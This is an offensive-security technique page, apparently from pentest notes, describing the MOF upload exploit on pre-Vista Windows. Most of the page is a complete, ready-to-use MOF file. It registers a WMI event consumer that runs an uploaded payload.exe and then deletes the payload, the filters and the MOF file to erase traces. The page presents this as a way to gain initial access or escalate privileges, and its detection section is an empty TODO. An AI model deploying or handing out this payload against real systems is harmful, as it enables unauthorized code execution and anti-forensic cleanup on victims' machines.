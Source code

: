 # MOF Upload
## Summary

Pre-Windows Vista (Not including vista) have an interesting vulnerability that can be used to gain code execution when two files are written to specific directories using any method. There might be a way of using this Post-Windows Vista, but they don't get auto-compiled anymore. More research is needed.

## Prerequisites

A Pre-Windows Vista install is required, and some method of writing to both "C:\\Windows\\System32" and "C:\\Windows\\System32\\wbem\\mof" is required for this exploit.

## Setup

Pick any method of allowing the attacker to write to the "C:\\Windows\\System32" and "C:\\Windows\\System32\\wbem\\mof" folders. This exploit can be used as privilege escalation or as initial access. SMB, TFTP, FTP, etc, are all viable setups.

## Execution

### Method 1 - Auto-compiling MOF

The first step is to upload the intended binary to "C:\\Windows\\System32", and then to upload a custom MOF file to "C:\\Windows\\System32\\wbem\\mof". Replace any instance of "payload.exe" below with the name of the executable uploaded. Below is the file that should be uploaded to the MOF directory:

```mof
#pragma namespace("\\\\.\\root\\cimv2")
class MyClass89
{
	[key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
	[key] string Name;
	[not_null] string ScriptingEngine;
	string ScriptFileName;
	[template] string ScriptText;
	uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
	Name  = "ActiveScriptEventConsumer";
	CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
	PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
	Provider = $P;
	ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
	Name = "ASEC";
	ScriptingEngine = "JScript";
	ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"payload.exe\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass89\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");} catch(err) {};";
	
};
Instance of ActiveScriptEventConsumer as $cons2
{
	Name = "qndASEC";
	ScriptingEngine = "JScript";
	ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\baud.mof\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"payload.exe\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
	Name = "instfilt";
	Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClass89\"";
	QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
	Name = "qndfilt";
	Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \"Win32_Process\" AND TargetInstance.Name = \"payload.exe\"";
	QueryLanguage = "WQL";
	
};
instance of __FilterToConsumerBinding as $bind
{
	Consumer = $cons;
	Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
	Consumer = $cons2;
	Filter = $Filt2;
};
instance of MyClass89 as $MyClass
{
	Name = "ClassConsumer";
};
```

Once this file is uploaded, then the exe that was uploaded should get executed.

#### Indicators of Compromise

TODO
